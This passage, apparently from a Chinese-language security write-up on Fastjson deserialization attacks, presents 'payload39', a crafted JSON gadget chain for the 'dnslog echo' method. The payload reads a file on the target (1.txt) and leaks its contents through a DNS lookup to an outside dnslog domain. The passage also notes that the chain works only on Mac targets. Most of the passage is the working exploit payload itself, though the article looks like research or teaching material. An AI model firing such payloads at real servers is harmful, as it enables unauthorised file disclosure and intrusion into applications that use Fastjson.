 [![](assets/1706959415-88831b78c44c5abfe2cc643914bb5d1e.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020212607508.png)

#### 4.1.1.3 dnslog 回显法（需要对方为 mac 环境且 dnslog 平台支持特殊符号）

`payload39`：

```plain
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"1.txt"},"password":{"@type":"java.net.Inet4Address","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type": "java.lang.String""@type":"java.util.Locale","language":{"@type":"java.lang.String"{"$ref":"$"},"country":"aaa.qmc8xj4s.dnslog.pw"}}}}]
```

但是只有`mac`才支持`ping`带花括号的域名，所以我`Windows`这里会提示`deserialize inet adress error`：

[![](assets/1706959415-02e446fbc9f55f782f13363b0d256a17.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020213159191.png)
